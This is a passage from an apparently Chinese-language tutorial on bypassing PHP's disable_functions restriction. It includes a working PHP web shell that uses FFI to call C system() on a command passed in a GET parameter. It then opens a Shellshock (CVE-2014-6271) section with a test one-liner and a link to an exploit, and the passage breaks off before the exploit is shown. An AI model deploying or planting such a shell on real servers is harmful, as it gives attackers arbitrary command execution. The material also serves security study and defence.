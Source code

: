 通过c语言的system去执行,绕过disable functions。
将返回结果写入/tmp/SD，并在每次读出结果后用unlink()函数删除它。

```
<?php
$cmd=$_GET['cmd'];
$ffi = FFI::cdef("int system(const char *command);");
$ffi->system("$cmd > /tmp/SD");       //由GET传参的任意代码执行
echo file_get_contents("/tmp/SD");
@unlink("/tmp/SD");
?>
```

[![img](/img/disable/bypass%20disable_functions%E5%A7%BF%E5%8A%BF%E6%80%BB%E7%BB%93%20-%20%E5%85%88%E7%9F%A5%E7%A4%BE%E5%8C%BA_files/20210814001952-4a447d8a-fc52-1.png)](/img/disable/bypass%20disable_functions%E5%A7%BF%E5%8A%BF%E6%80%BB%E7%BB%93%20-%20%E5%85%88%E7%9F%A5%E7%A4%BE%E5%8C%BA_files/20210814001952-4a447d8a-fc52-1.png)

# 0x08 利用Bash Shellshock(CVE-2014-6271)破壳漏洞

利用条件php < 5.6.2 & bash <= 4.3（破壳）

Bash使用的环境变量是通过函数名称来调用的，导致漏洞出问题是以“(){”开头定义的环境变量在命令ENV中解析成函数后，Bash执行并未退出，而是继续解析并执行shell命令。而其核心的原因在于在输入的过滤中没有严格限制边界，也没有做出合法化的参数判断。

简单测试是否存在破壳漏洞:
命令行输入`env x='() { :;}; echo vulnerable' bash -c "echo this is a test"`
如果输出了`vulnerable`，则说明存在bash破壳漏洞

[![img](/img/disable/bypass%20disable_functions%E5%A7%BF%E5%8A%BF%E6%80%BB%E7%BB%93%20-%20%E5%85%88%E7%9F%A5%E7%A4%BE%E5%8C%BA_files/20210814001958-4dee2b3e-fc52-1.png)](/img/disable/bypass%20disable_functions%E5%A7%BF%E5%8A%BF%E6%80%BB%E7%BB%93%20-%20%E5%85%88%E7%9F%A5%E7%A4%BE%E5%8C%BA_files/20210814001958-4dee2b3e-fc52-1.png)

[EXP](https://www.exploit-db.com/exploits/35146)如下:

